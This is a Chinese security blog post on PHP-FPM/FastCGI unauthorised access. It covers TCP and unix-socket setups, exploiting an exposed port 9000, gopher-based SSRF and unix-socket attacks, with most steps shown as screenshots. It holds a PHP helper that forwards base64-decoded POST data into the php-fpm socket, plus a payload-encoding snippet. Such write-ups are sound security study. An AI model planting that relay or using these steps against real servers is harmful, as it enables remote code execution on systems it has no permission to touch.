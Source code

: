 ```yaml
---
layout:     post
title:      PHP-FPM Fastcgi 未授权访问漏洞
subtitle:   。。
date:       2020-06-13
author:     BY Diego
header-img: img/wenzhang/PHP-FPM.jpg
catalog: true
tags:
    - 命令注入
    - PHP
---
```


# 一、PHP-FPM 两种模式

**php-fpm 有两种模式，一种是基于tcp 另一种是基于unix套接字，tcp模式会启动9000端口 而unix套接字模式是基于fpm.sock文件**


**tcp模式下配置文件**

fpm 配置文件
`/etc/php/7.4/fpm/pool.d/www.conf`
![tvbEYn.png](https://s1.ax1x.com/2020/06/13/tvbEYn.png)

nginx 配置文件
`/etc/nginx/sites-enabled/default`
![tvbAFs.png](https://s1.ax1x.com/2020/06/13/tvbAFs.png)

效果如下会开启9000端口
![tvb6pt.png](https://s1.ax1x.com/2020/06/13/tvb6pt.png)
**unix模式下配置文件**

fpm 配置文件
`/etc/php/7.4/fpm/pool.d/www.conf`
![tvH1RP.png](https://s1.ax1x.com/2020/06/13/tvH1RP.png)

nginx 配置文件
`/etc/nginx/sites-enabled/default`
![tvHlGt.png](https://s1.ax1x.com/2020/06/13/tvHlGt.png)

![tvqzqS.png](https://s1.ax1x.com/2020/06/13/tvqzqS.png)

# 二、攻击

具体原理参考其他文章，个人简单记录攻击方法

## ① Fastcgi暴露在外网

**tcp模式下的9000端口暴露外网**

直接利用poc 进行攻击，前提知道某php脚本的绝对路径，一般有php环境的都会自带php文件，根据实际选一个
![tjc98s.png](https://s1.ax1x.com/2020/06/13/tjc98s.png)

效果如下
![tjcPvq.png](https://s1.ax1x.com/2020/06/13/tjcPvq.png)


## ② Fastcgi在内网

**tcp模式下的9000端口在内网**

利用**gopher协议** 进行ssrf

可以本地先搭建个环境，直接用vulhub也行，用上面的脚本进行流量抓取
![tjcC2n.png](https://s1.ax1x.com/2020/06/13/tjcC2n.png)
跟踪一下流
![tjcpCj.png](https://s1.ax1x.com/2020/06/13/tjcpCj.png)
把发送数据转化成原始数据
![tj6z5Q.png](https://s1.ax1x.com/2020/06/13/tj6z5Q.png)

url编一下码
```python
data = ""
a = [ data[x:x+2] for x in range(0,len(data),2) ]
"%".join(a)
```
![tjcFK0.png](https://s1.ax1x.com/2020/06/13/tjcFK0.png)

然后利用curl 模拟一下
![tjW8ld.png](https://s1.ax1x.com/2020/06/13/tjW8ld.png)

或者直接利用工具自动生成payload
![tjWG6A.png](https://s1.ax1x.com/2020/06/13/tjWG6A.png)

![tjW3SH.png](https://s1.ax1x.com/2020/06/13/tjW3SH.png)


## ③ unix套接字攻击

使用的是unix套接字，因此不会开放9000端口，但同样需要存在php文件

需要在服务器端执行如下代码
```php
<?php
$sock=stream_socket_client('unix:///run/php/php7.3-fpm.sock');
fputs($sock, base64_decode($_POST['A']));
var_dump(fread($sock, 4096));
?>
```
可以通过工具生成，然后截取`_`以后的部分，url解码之后转base64
![tjWG6A.png](https://s1.ax1x.com/2020/06/13/tjWG6A.png)


也可跟ssrf相同方法 获得原始数据直接转base64

![tvXBKP.png](https://s1.ax1x.com/2020/06/13/tvXBKP.png)

# 三、参考

[PHP 连接方式&攻击PHP-FPM&*CTF echohub WP](https://evoa.me/index.php/archives/52/#toc-%E6%94%BB%E5%87%BB%E5%A5%97%E6%8E%A5%E5%AD%97)

[浅析php-fpm的攻击方式](https://xz.aliyun.com/t/5598#toc-8)

[Fastcgi协议分析 && PHP-FPM未授权访问漏洞 && Exp编写](https://www.leavesongs.com/PENETRATION/fastcgi-and-php-fpm.html)
